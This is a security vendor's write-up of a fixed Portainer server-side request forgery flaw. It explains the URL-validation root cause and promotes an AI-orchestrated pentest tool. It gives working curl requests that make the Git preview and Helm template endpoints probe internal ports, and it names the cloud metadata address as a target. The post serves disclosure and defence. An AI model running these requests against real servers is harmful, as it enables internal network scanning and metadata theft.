


# Portainer SSRF (GHSA-wqqf-pwjh-2hm6)

**Advisory:** [GHSA-wqqf-pwjh-2hm6](https://github.com/portainer/portainer/security/advisories/GHSA-wqqf-pwjh-2hm6) · **Severity:** Medium, CVSS 5.3 · **Fixed in:** Portainer 2.45.1

Several Portainer features fetch something from a web address the user supplies — a Git repository, a Helm chart repository, a registry to "ping". Portainer checked that the address was **well-formed**. It never checked **where it pointed**. So a signed-in user could make Portainer's own server reach addresses they could not reach themselves — internal services, or a cloud provider's metadata endpoint. This is a server-side request forgery (SSRF).

This post shows, command by command, how a standard user turned those features into an internal-network probe, and how Bravos found and confirmed it.

> Defensive write-up of a fixed flaw. Run it only against a copy of **Portainer 2.39.2** you own and are authorised to test. Upgrade production to 2.45.1 or later.


## The root cause: one helper that trusts any address

Every one of those features passed the user's URL through the same helper, `IsURL`. GuardLink annotated it in one line during the Bravos run:

> `IsURL` accepts ANY scheme and ANY host: it only requires `url.Parse` to succeed with a non-empty host. No allowlist, no private-IP / link-local / metadata block, no DNS-rebind defense.

When one helper guards every outbound fetch and that helper only checks the *form* of the address, every feature built on it inherits the same SSRF.

## How Bravos handled the whole thing — one prompt, no setup

We did not start by poking the API by hand, and we did not build a lab first. We pointed Bravos at the Portainer 2.39.2 source and let it run the whole thing. Here is the actual sequence.

**1. Clone the code.** Portainer Community Edition 2.39.2, and nothing else — no running server, no test accounts, no environment of our own.

```bash
git clone --branch 2.39.2 https://github.com/portainer/portainer
```

**2. `bravos init` — point Bravos at the repository.** One command sets the repo up: GuardLink, the scope, the agent instructions, and a code graph of the whole project.

```bash
bravos init portainer
```

**3. Open the dashboard — or just talk to Bravos from your AI assistant over MCP.**

```bash
bravos dashboard          # opens http://localhost:8787
# or
bravos mcp                # serves Bravos's tools to your AI assistant over MCP
```

This run started from the MCP path: a single plain-language prompt, nothing set up by hand.

**4. Ask for what you want, in plain words.** We described the goal; Bravos turned it into a reviewable plan.

```bash
bravos intake "pentest Portainer as a standard, non-admin user; prove anything that reaches the host or an internal service"
```

**5. Read the plan and approve it.**

```bash
bravos intake --approve <plan-id>
```

**6. Bravos ran the whole loop — and built the environment itself.** We never stood up Portainer or created users. Bravos authored a disposable-environment recipe, brought it up, created the test accounts at each role, and ran.

```bash
bravos auto --plan <plan-id> --init-env
```

Under that one command, Bravos orchestrated three specialists in order:



**GuardLink** read all 4,606 files and wrote the threat model into the repository — 881 annotations — in minutes. That is what changes the economics of a review: instead of a person spending days learning Portainer, we had a complete map of where untrusted input reaches something dangerous, across the whole codebase, almost immediately. We understood the threats the project could plausibly hold before sending a single request — and one annotation is the whole story here: every feature that fetches a user-supplied URL passes through one helper, `IsURL`, which only checks the *form* of an address and never where it leads.

**CodeGraph** ranked the server-side-fetch routes high, because they reach the network from the server's own position.

After that, all that was left was **proof**. A map tells you where to look; it does not tell you the server will actually make the request. So **Cert-X-Gen** pointed each fetch at an address only the server could reach and watched the server's own response reveal what happened — confirmed, not guessed.



**7. Read the results.** Bravos wrote the threat model (`threat-model.md`), the machine-readable model (`.guardlink/report.json`), and a ledger of every goal with its verdict. This SSRF is one of the ones that came back **confirmed**, because the running server demonstrated it.

The headline is the orchestration. We mapped Portainer's entire threat model in minutes with Bravos and GuardLink, understood the threats the codebase could plausibly hold, and then needed only proof — which Bravos and Cert-X-Gen produced on a live copy. **Bravos orchestrated all of it**: the environment, the model, the ranking, the probes, and the evidence. We supplied one prompt.

If you would rather watch the raw exchange, the same finding reproduced by hand looks like this.

## Reproduce it, command by command

Authenticate as a standard (non-admin) user. No access to any Docker/Kubernetes environment is required — these are API features, not environment operations:

```bash
# 1. Log in as a standard user
TOKEN=$(curl -s -X POST https://portainer.local/api/auth \
  -H 'Content-Type: application/json' \
  -d '{"username":"alice","password":"<alice-password>"}' | jq -r .jwt)
```

Point the Git repository file-preview feature at a loopback address instead of a real repository. Portainer's server dials it, and the error it returns back to you carries the server-side request path — an internal host/port oracle:

```bash
# 2. Git preview -> server fetches an internal URL (CONFIRMED oracle)
curl -s -X POST "https://portainer.local/api/gitops/repo/file/preview" \
  -H "Authorization: Bearer $TOKEN" \
  -H 'Content-Type: application/json' \
  -d '{"repository":"http://127.0.0.1:7777/ssrf-probe","targetFile":"README.md"}'
# -> 500. The body contains the server-side go-git request path
#    "/info/refs?service=git-upload-pack" and
#    "dial tcp 127.0.0.1:7777: connect: connection refused".
# That response proves the SERVER made the request, and leaks whether the
# internal port was open or closed. Swap 127.0.0.1:7777 for any internal
# host:port to map what the server can reach.
```

The 500 is the proof: Portainer's server tried to reach `127.0.0.1:7777` on your behalf and told you how it went. A closed port says "connection refused"; an open one responds differently — so this is a working internal port scanner that speaks with the server's network identity.


The same gap is reachable through other features — for example the Helm template repository:

```bash
# 3. Helm template fetch -> server requests <attacker-url>/index.yaml
curl -s -G "https://portainer.local/api/templates/helm" \
  -H "Authorization: Bearer $TOKEN" \
  --data-urlencode "repo=http://127.0.0.1:7777/"
# -> 500 whose details field carries Helm's own error text about
#    requesting http://127.0.0.1:7777/index.yaml — again, the server fetched it.
```

Against a cloud deployment, the same technique pointed at `http://169.254.169.254/` reaches the instance metadata service — which is exactly why SSRF that speaks from the server's position is dangerous even at "Medium" severity. How much it exposes depends on the network around Portainer.

## Why the check missed it

The validator answered "is this a valid URL?" — a question about **form**. The question that mattered was "where does this lead, and should the server go there?" — a question about **destination**. A form check passes `http://127.0.0.1:7777` and `http://169.254.169.254` as readily as a real Git host. Cert-X-Gen did not infer this from the code; it sent the request and read the server's own response back, which is how the finding became confirmed rather than suspected.

## The fix and what to do

- **Upgrade to Portainer 2.45.1 or later.**
- **Restrict what the Portainer server can reach:** block its outbound access to `169.254.169.254` and to internal ranges it has no reason to contact. The new destination controls are off by default and, at the time of the advisory, configurable only in Business Edition — so network-level egress filtering is the dependable control.
- The reusable lesson: **validate where an address leads, not whether it parses** — and when one helper guards every outbound fetch, fixing that one helper fixes every feature at once.

## References

- Advisory: [GHSA-wqqf-pwjh-2hm6](https://github.com/portainer/portainer/security/advisories/GHSA-wqqf-pwjh-2hm6)
- Companion case study: [Two Portainer Advisories, found with Bravos](https://bugb.io/resources/case-studies/portainer-ssrf-bindmount)
- GuardLink and Cert-X-Gen are open source; Bravos orchestrates them.
